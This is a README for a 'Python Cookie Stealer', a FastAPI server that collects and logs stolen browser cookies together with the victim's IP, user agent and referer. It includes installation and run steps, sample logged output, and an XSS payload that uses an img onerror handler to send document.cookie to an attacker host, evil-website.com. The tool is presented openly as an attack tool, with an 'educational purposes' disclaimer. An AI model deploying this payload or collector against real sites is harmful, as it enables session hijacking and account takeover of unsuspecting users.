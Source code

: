 # Python Cookie Stealer

## Usage

1. Clone Python Cookie Stealer Project
```
git clone https://github.com/TheWation/PythonCookieStealer
```

2. Install Python and FastAPI on your machine if you haven't already. You can download the latest version of Python from the official website: https://www.python.org/downloads/ and install FastAPI using pip:

```bash
pip install fastapi
```
3. Install uvicorn, a lightning-fast ASGI server, using pip:

```bash
pip install uvicorn
```

4. Create a new directory for your project and navigate into it using a terminal or command prompt.

5. Create a new file called main.py and copy the FastAPI code into it.

6. Start the FastAPI server by running the following command in the terminal or command prompt:

```bash
uvicorn main:app --reload
```

7. In your web browser, visit http://localhost:8000/c/your-cookie-value, replacing your-cookie-value with the value of the cookie that you want to log. For example, if the cookie value is ABC123, you would visit http://localhost:8000/c/ABC123.

8. The server will log the date and time, client IP address, user agent, referer, and cookie value to the cookies.txt file in the project directory.

```
[+] Date: 2022/10/03 15:30:45
[+] IP: 127.0.0.1
[+] UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
[+] Referer: http://localhost:8000/
[+] Cookies: ABC123
---
```

9. The server will also return a response with a status code of 200 if the request was successful, or a status code of 500 if there was an error writing to the file.

10. You can repeat step 6 with different cookie values to log additional data to the file.

11. To stop the server, press CTRL+C in the terminal where it is running.

## Example Payload
```
https://pentest.target/?name=<img src=x onerror=this.src='http://evil-website.com/c/'+document.cookie>
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.